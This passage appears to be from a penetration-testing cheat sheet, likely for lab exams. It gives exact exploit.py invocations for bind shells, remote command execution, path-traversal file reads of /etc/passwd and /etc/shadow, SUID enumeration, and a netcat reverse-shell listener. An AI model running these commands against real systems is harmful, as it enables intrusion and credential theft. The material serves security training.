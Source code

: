   ```
### **Bind Shell Pattern**
**Target listens, you connect - Run exploit FIRST**

```
# Run exploit first (creates listener on target)
python3 exploit.py -t TARGET --bind-port 4444

# Then connect to target
nc TARGET 4444
```

### **Command Execution Pattern**
**No shell needed - Direct command execution**

```
# No listener required
python3 exploit.py -t TARGET --exec 'id; hostname; whoami'
python3 exploit.py -t TARGET --cmd 'cat /etc/passwd'
```

## **4. Typical Attack Patterns and Exact Commands**

### **Pattern 1: File Reading/Information Disclosure**
```
# Common file reading targets
python3 exploit.py -t TARGET --read /etc/passwd
python3 exploit.py -t TARGET --read /etc/shadow
python3 exploit.py -t TARGET --read /home/user/local.txt
python3 exploit.py -t TARGET --read /root/proof.txt

# Web application file reading
python3 exploit.py -u http://TARGET --file ../../../../etc/passwd
python3 exploit.py -u http://TARGET --file ../../../windows/system32/drivers/etc/hosts
```

### **Pattern 2: Remote Code Execution**
```
# One-off command execution (no listener needed)
python3 exploit.py -t TARGET --exec 'id; hostname; whoami'
python3 exploit.py -t TARGET --exec 'ps aux | grep root'
python3 exploit.py -t TARGET --exec 'find / -perm -4000 2>/dev/null'

# Reverse shell payload delivery
# Start listener first:
nc -nvlp 4444
